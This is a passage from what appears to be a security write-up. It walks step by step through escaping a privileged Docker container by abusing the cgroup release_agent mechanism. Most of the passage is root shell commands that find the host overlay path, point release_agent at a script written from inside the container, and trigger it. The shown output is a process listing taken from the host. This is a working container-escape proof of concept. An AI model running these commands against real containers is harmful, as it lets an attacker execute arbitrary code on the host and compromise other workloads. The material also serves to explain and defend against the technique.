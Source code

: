 The files we add or modify in the container are present on the host, and it is possible to modify them from both worlds: the path in the container and their path on the host.

Those operations can be seen below:

```text
root@b11cf9eab4fd:/# echo 1 > /tmp/cgrp/x/notify_on_release
root@b11cf9eab4fd:/# host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
root@b11cf9eab4fd:/# echo "$host_path/cmd" > /tmp/cgrp/release_agent
```

Note the path to the `/cmd` script, which we are going to create on the host:

```text
root@b11cf9eab4fd:/# cat /tmp/cgrp/release_agent
/var/lib/docker/overlay2/7f4175c90af7c54c878ffc6726dcb125c416198a2955c70e186bf6a127c5622f/diff/cmd
```

Now, we create the `/cmd` script such that it will execute the `ps aux` command and save its output into `/output` on the container by specifying the full path of the output file on the host. At the end, we also print the `/cmd` script to see its contents:

```text
root@b11cf9eab4fd:/# echo '#!/bin/sh' > /cmd
root@b11cf9eab4fd:/# echo "ps aux > $host_path/output" >> /cmd
root@b11cf9eab4fd:/# chmod a+x /cmd
root@b11cf9eab4fd:/# cat /cmd
#!/bin/sh
ps aux > /var/lib/docker/overlay2/7f4175c90af7c54c878ffc6726dcb125c416198a2955c70e186bf6a127c5622f/diff/output
```

Finally, we can execute the attack by spawning a process that immediately ends inside the “x” child cgroup. By creating a `/bin/sh` process and writing its PID to the `cgroup.procs` file in “x” child cgroup directory, the script on the host will execute after `/bin/sh` exits. The output of `ps aux` performed on the host is then saved to the `/output` file inside the container:

```text
root@b11cf9eab4fd:/# sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
root@b11cf9eab4fd:/# head /output
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1  0.1  1.0  17564 10288 ?        Ss   13:57   0:01 /sbin/init
root         2  0.0  0.0      0     0 ?        S    13:57   0:00 [kthreadd]
root         3  0.0  0.0      0     0 ?        I<   13:57   0:00 [rcu_gp]
root         4  0.0  0.0      0     0 ?        I<   13:57   0:00 [rcu_par_gp]
root         6  0.0  0.0      0     0 ?        I<   13:57   0:00 [kworker/0:0H-kblockd]
root         8  0.0  0.0      0     0 ?        I<   13:57   0:00 [mm_percpu_wq]
root         9  0.0  0.0      0     0 ?        S    13:57   0:00 [ksoftirqd/0]
root        10  0.0  0.0      0     0 ?        I    13:57   0:00 [rcu_sched]
root        11  0.0  0.0      0     0 ?        S    13:57   0:00 [migration/0]
```

# `--privileged` flag v2

The previous PoCs work fine when the container is configured with a storage-driver which exposes the full host path of the mount point, for example `overlayfs`, however I recently came across a couple of configurations which did not obviously disclose the host file system mount point.
